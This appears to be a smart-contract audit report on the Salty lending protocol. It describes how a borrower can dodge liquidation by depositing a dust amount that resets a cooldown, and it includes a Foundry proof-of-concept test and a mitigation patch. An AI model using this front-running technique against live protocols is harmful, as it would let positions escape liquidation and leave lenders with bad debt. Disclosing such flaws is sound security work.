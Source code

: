 # User can evade liquidation by depositing the minimum of tokens and gain time to not be liquidated
## Impact
The CollateralAndLiquidity contract contains a critical vulnerability that allows a user undergoing liquidation to evade the process by manipulating the user.cooldownExpiration variable. This manipulation is achieved through the CollateralAndLiquidity::depositCollateralAndIncreaseShare function, specifically within the StakingRewards::_increaseUserShare function (code line #70):
```solidity
File: StakingRewards.sol
57: 	function _increaseUserShare( address wallet, bytes32 poolID, uint256 increaseShareAmount, bool useCooldown ) internal
58: 		{
59: 		require( poolsConfig.isWhitelisted( poolID ), "Invalid pool" );
60: 		require( increaseShareAmount != 0, "Cannot increase zero share" );
61: 
62: 		UserShareInfo storage user = _userShareInfo[wallet][poolID];
63: 
64: 		if ( useCooldown )
65: 		if ( msg.sender != address(exchangeConfig.dao()) ) // DAO doesn't use the cooldown
66: 			{
67: 			require( block.timestamp >= user.cooldownExpiration, "Must wait for the cooldown to expire" );
68: 
69: 			// Update the cooldown expiration for future transactions
70: 			user.cooldownExpiration = block.timestamp + stakingConfig.modificationCooldown();
71: 			}
72: 
73: 		uint256 existingTotalShares = totalShares[poolID];
74: 
75: 		// Determine the amount of virtualRewards to add based on the current ratio of rewards/shares.
76: 		// The ratio of virtualRewards/increaseShareAmount is the same as totalRewards/totalShares for the pool.
77: 		// The virtual rewards will be deducted later when calculating the user's owed rewards.
78:         if ( existingTotalShares != 0 ) // prevent / 0
79:         	{
80: 			// Round up in favor of the protocol.
81: 			uint256 virtualRewardsToAdd = Math.ceilDiv( totalRewards[poolID] * increaseShareAmount, existingTotalShares );
82: 
83: 			user.virtualRewards += uint128(virtualRewardsToAdd);
84: 	        totalRewards[poolID] += uint128(virtualRewardsToAdd);
85: 	        }
86: 
87: 		// Update the deposit balances
88: 		user.userShare += uint128(increaseShareAmount);
89: 		totalShares[poolID] = existingTotalShares + increaseShareAmount;
90: 
91: 		emit UserShareIncreased(wallet, poolID, increaseShareAmount);
92: 		}
```
Malicious user can perform front-running of the liquidation function by depositing small amounts of tokens to his position, incrementing the user.cooldownExpiration variable. Consequently, the execution of the liquidation function will be reverted with the error message Must wait for the cooldown to expire. This vulnerability could lead to attackers evading liquidation, potentially causing the system to enter into debt as liquidations are avoided.

## Proof of Concept
A test case, named testUserLiquidationMayBeAvoided, has been created to demonstrate the potential misuse of the system. The test involves the following steps:

User Alice deposits and borrow the maximum amount.
The collateral price crashes.
Alice maliciously front-runs the liquidation execution by depositing a the minimum amount using the collateralAndLiquidity::depositCollateralAndIncreaseShare function.
The liquidation transaction is reverted by "Must wait for the cooldown to expire" error.
```solidity
// Filename: src/stable/tests/CollateralAndLiquidity.t.sol:TestCollateral
// $ forge test --match-test "testUserLiquidationMayBeAvoided" --rpc-url https://yoururl -vv
//
    function testUserLiquidationMayBeAvoided() public {
        // Liquidatable user can avoid liquidation
        //
		// Have bob deposit so alice can withdraw everything without DUST reserves restriction
        _depositHalfCollateralAndBorrowMax(bob);
        //
        // 1. Alice deposit and borrow the max amount
        // Deposit and borrow for Alice
        _depositHalfCollateralAndBorrowMax(alice);
        // Check if Alice has a position
        assertTrue(_userHasCollateral(alice));
        //
        // 2. Crash the collateral price
        _crashCollateralPrice();
        vm.warp( block.timestamp + 1 days );
        //
        // 3. Alice maliciously front run the liquidation action and deposit a DUST amount
        vm.prank(alice);
		collateralAndLiquidity.depositCollateralAndIncreaseShare(PoolUtils.DUST + 1, PoolUtils.DUST + 1, 0, block.timestamp, false );
        //
        // 4. The function alice liquidation will be reverted by "Must wait for the cooldown to expire"
        vm.expectRevert( "Must wait for the cooldown to expire" );
        collateralAndLiquidity.liquidateUser(alice);
    }
```

## Lines of code
https://github.com/code-423n4/2024-01-salty/blob/53516c2cdfdfacb662cdea6417c52f23c94d5b5b/src/stable/CollateralAndLiquidity.sol#L140
https://github.com/code-423n4/2024-01-salty/blob/53516c2cdfdfacb662cdea6417c52f23c94d5b5b/src/stable/CollateralAndLiquidity.sol#L70

## Tool used
Manual Review

## Recommended Mitigation Steps
Consider modifying the liquidation function as follows:
```solidity
	function liquidateUser( address wallet ) external nonReentrant
		{
		require( wallet != msg.sender, "Cannot liquidate self" );

		// First, make sure that the user's collateral ratio is below the required level
		require( canUserBeLiquidated(wallet), "User cannot be liquidated" );

		uint256 userCollateralAmount = userShareForPool( wallet, collateralPoolID );

		// Withdraw the liquidated collateral from the liquidity pool.
		// The liquidity is owned by this contract so when it is withdrawn it will be reclaimed by this contract.
		(uint256 reclaimedWBTC, uint256 reclaimedWETH) = pools.removeLiquidity(wbtc, weth, userCollateralAmount, 0, 0, totalShares[collateralPoolID] );

		// Decrease the user's share of collateral as it has been liquidated and they no longer have it.
--		_decreaseUserShare( wallet, collateralPoolID, userCollateralAmount, true );
++		 _decreaseUserShare( wallet, collateralPoolID, userCollateralAmount, false );

		// The caller receives a default 5% of the value of the liquidated collateral.
		uint256 rewardPercent = stableConfig.rewardPercentForCallingLiquidation();

		uint256 rewardedWBTC = (reclaimedWBTC * rewardPercent) / 100;
		uint256 rewardedWETH = (reclaimedWETH * rewardPercent) / 100;

		// Make sure the value of the rewardAmount is not excessive
		uint256 rewardValue = underlyingTokenValueInUSD( rewardedWBTC, rewardedWETH ); // in 18 decimals
		uint256 maxRewardValue = stableConfig.maxRewardValueForCallingLiquidation(); // 18 decimals
		if ( rewardValue > maxRewardValue )
			{
			rewardedWBTC = (rewardedWBTC * maxRewardValue) / rewardValue;
			rewardedWETH = (rewardedWETH * maxRewardValue) / rewardValue;
			}

		// Reward the caller
		wbtc.safeTransfer( msg.sender, rewardedWBTC );
		weth.safeTransfer( msg.sender, rewardedWETH );

		// Send the remaining WBTC and WETH to the Liquidizer contract so that the tokens can be converted to USDS and burned (on Liquidizer.performUpkeep)
		wbtc.safeTransfer( address(liquidizer), reclaimedWBTC - rewardedWBTC );
		weth.safeTransfer( address(liquidizer), reclaimedWETH - rewardedWETH );

		// Have the Liquidizer contract remember the amount of USDS that will need to be burned.
		uint256 originallyBorrowedUSDS = usdsBorrowedByUsers[wallet];
		liquidizer.incrementBurnableUSDS(originallyBorrowedUSDS);

		// Clear the borrowedUSDS for the user who was liquidated so that they can simply keep the USDS they previously borrowed.
		usdsBorrowedByUsers[wallet] = 0;
		_walletsWithBorrowedUSDS.remove(wallet);

		emit Liquidation(msg.sender, wallet, reclaimedWBTC, reclaimedWETH, originallyBorrowedUSDS);
		}
```
This modification ensures that the user.cooldownExpiration expiration check does not interfere with the liquidation process, mitigating the identified security risk.